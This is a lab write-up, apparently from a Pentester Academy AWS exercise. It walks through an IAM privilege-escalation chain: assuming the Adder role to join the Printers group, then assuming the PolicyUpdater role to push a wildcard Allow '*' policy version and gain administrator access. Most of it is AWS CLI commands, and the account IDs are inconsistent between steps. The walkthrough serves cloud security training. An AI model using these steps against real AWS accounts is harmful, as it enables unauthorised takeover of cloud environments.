 ### Dangerous Policy Combination II

First the profile has to be configured with the access keys provided by PT Academy

## Walkthrough

Get the attached user policies for `student` user which shows `IAMReadOnlyAccess` permission `aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222863836-e087ae15-632c-4700-9537-0d8fa592fd96.png)

To get information about that attached policy, execute the below commands

```
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam get-user-policy --user-name student --policy-name terraform-20230304005305909200000003 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222868760-5cc5c2d0-0081-48c0-918f-34ce5cc9b98a.png)

Trying to create a user with `aws iam create-user --user-name jllerena --profile PTAcademyJllerena` will give a denied message direc

![image](https://user-images.githubusercontent.com/46797181/222869046-fa11aa80-93a7-4937-ac97-cbbfa03447f9.png)

Check Adder role policies and permissions. Also, check the role-policy document

```
aws iam list-role-policies --role-name Adder --profile PTAcademyJllerena
aws iam get-role-policy --role-name Adder --policy-name AddUser --profile PTAcademyJllerena 

```
![image](https://user-images.githubusercontent.com/46797181/222869512-0fd5c70d-5d77-4923-926a-397c12074313.png)

Role policy says that role Adder has permission to add any user to the Printers group. Next step is to assume Adder role with student user. `aws sts assume-role --role-arn arn:aws:iam::213923356313:role/Adder --role-session-name adder_jllerena --profile PTAcademyJllerena` 

![image](https://user-images.githubusercontent.com/46797181/222869789-58fb66f0-b288-4b69-a6e0-c3bb2eb9bbae.png)

Add student user to printers group and unset environment variable. 

```
aws iam add-user-to-group --group-name Printers --user-name student
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN

```
List groups for the student user. `aws iam list-groups-for-user --user-name student --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222870473-52b827c6-77ba-4a26-b2bc-8bc21df7156b.png)

Check the policies attached to the PolicyUpdater role policies and check the role-policy document.
```
aws iam list-role-policies --role-name PolicyUpdater --profile PTAcademyJllerena
aws iam get-role-policy --role-name PolicyUpdater --policy-name CreatePolicyVersion --profile PTAcademyJllerena
```

![image](https://user-images.githubusercontent.com/46797181/222870852-ed359f25-7b31-462a-ac7b-12162fcffdd3.png)

Role policy says that role PolicyUpdater has permission to create a new PolicyVersion for `Print` policy. Check the policies attached to the group `Printers`. `aws iam list-attached-group-policies --group-name Printers --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871232-0a83488b-db51-4482-b054-cd0ae52b7a3b.png)

The Print policy is attached to the Printers group. List the version of policies available for Print policy `aws iam get-policy --policy-arn arn:aws:iam::213923356313:policy/Print --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871463-961b5e3f-fb4c-4d37-8fb6-520ac16d3534.png)

View the policy document for v1 version of Print policy `aws iam get-policy-version --policy-arn arn:aws:iam::213923356313:policy/Print --version-id v1 --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871742-3b49d9f8-4830-43cf-961e-754c8767f9c0.png)

Assume PolicyUpdater role. `aws sts assume-role --role-arn arn:aws:iam::213923356313:role/PolicyUpdater --role-session-name policy_jllerena --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222871903-58f59a50-c386-4b5c-86e4-2202dac6d638.png)

Set the access key id, secret access key, and session token in environment variables.

```
export AWS_ACCESS_KEY_ID=<access key id>
export AWS_SECRET_ACCESS_KEY=<secret access key>
export AWS_SESSION_TOKEN=<session token>

```

Create a new policy version and set it as default. Use the following policy document for Administrator Access.
```
{
 "Version": "2012-10-17",
 "Statement": [
   {
    "Effect": "Allow",
    "Action": "*",
    "Resource": "*"
   }
  ]
}
```
Execute `aws iam create-policy-version --policy-arn arn:aws:iam::165405147110:policy/Print --policy-document file://jllPolicy.json --set-as-default`

Then unset the env variables
```
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```
![image](https://user-images.githubusercontent.com/46797181/222872569-bfec65e6-12ca-4b6f-a500-50356d5abe1a.png)

Check the new version of the Print policy. `aws iam get-policy-version --policy-arn arn:aws:iam::165405147110:policy/Print --version-id v2 --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222872694-b05df9e4-6322-4f64-b2c3-baf9464e0f05.png)

Try creating a new user on the AWS account named jllerena to verify `Administrator` access. `aws iam create-user --user-name jllerena --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222873174-331a6285-8263-4238-9029-a4c7040f8c63.png)

With the new permissions, a new user was possible to create, therefore privilege escalation has been achieved 






